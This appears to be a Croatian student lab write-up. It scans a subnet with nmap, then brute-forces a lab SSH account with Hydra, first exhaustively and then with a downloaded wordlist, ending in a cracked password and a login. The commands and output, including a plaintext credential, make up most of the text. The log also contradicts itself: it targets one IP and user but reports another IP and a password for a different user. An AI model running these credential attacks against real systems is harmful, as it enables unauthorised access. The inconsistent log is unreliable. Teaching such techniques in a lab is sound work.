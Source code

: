 - nmap je alat otvorenog koda za skeniranje mreže i otkrivanje potencijalnih sigurnosnih ranjivosti
- zatim smo napisali naredbu:

```bash
nmap -v 10.0.15.0/28
```

- i kao odgovor dobili informaciju da je 16 računala na mreži.

```bash
Initiating Ping Scan at 13:20
Scanning 16 hosts [2 ports/host]
Completed Ping Scan at 13:20, 1.21s elapsed (16 total hosts)
```

- ssh - Secure Shell je mrežni protokol koji korisnicima omogućuje uspostavu sigurnog komunikacijskog kanala između dva računala putem računalne mreže.

```bash
ssh Juric_marino@10.0.15.1
```

- ne znamo šifru.
- lozinka može imat 4-6 malih slova
- brute force može ispitati sve kombinacije, ali to će trajati predugo i nema smisla
- instaliramo hydru koja će ispitat tih 321254128 kombinacija.

```bash
student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l juric_marino -x 4:6:a 10.0.15.1 -V -t 1 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2021-12-20 13:39:53
[DATA] max 1 task per 1 server, overall 1 task, 321254128 login tries (l:1/p:321254128), ~321254128 tries per task
[DATA] attacking ssh://10.0.15.5:22/
[ATTEMPT] target 10.0.15.1 - login "juric_marino" - pass "aaaa" - 1 of 321254128 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "juric_marino" - pass "aaab" - 2 of 321254128 [child 0] (0/0)
...
```

- potom skinemo rječnik i možemo isprobati lozinke iz dictionaryja skraćenog na 878

```bash
wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g3/

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l juric_marino -P dictionary/g3/dictionary_online.txt 10.0.15.1 -V -t 4 ssh
[ATTEMPT] target 10.0.15.5 - login "juric_marino" - pass "kajjeg" - 1 of 878 [child 0] (0/0)
[ATTEMPT] target 10.0.15.5 - login "juric_marino" - pass "kajttg" - 2 of 878 [child 1] (0/0)
[ATTEMPT] target 10.0.15.5 - login "juric_marino" - pass "kajtze" - 3 of 878 [child 2] (0/0)
```

- nakon određenog vremena smo pronašli lozinku i sada se možemo ulogirati:

```bash
[ATTEMPT] target 10.0.15.1 - login "juric_marino" - pass "jabsle" - 68 of 878 [child 1] (0/0)
[22][ssh] host: 10.0.15.1 login: zupanovic_karmen password: soicly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-12-20 13:50:13

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ ssh juric_marino@10.0.15.1juric_marino@10.0.15.1's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)
Documentation: https://help.ubuntu.com
Management: https://landscape.canonical.com
Support: https://ubuntu.com/advantage
This system has been minimized by removing packages and content that are
not required on a system that users do not log into.
To restore this content, you can run the 'unminimize' command.
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```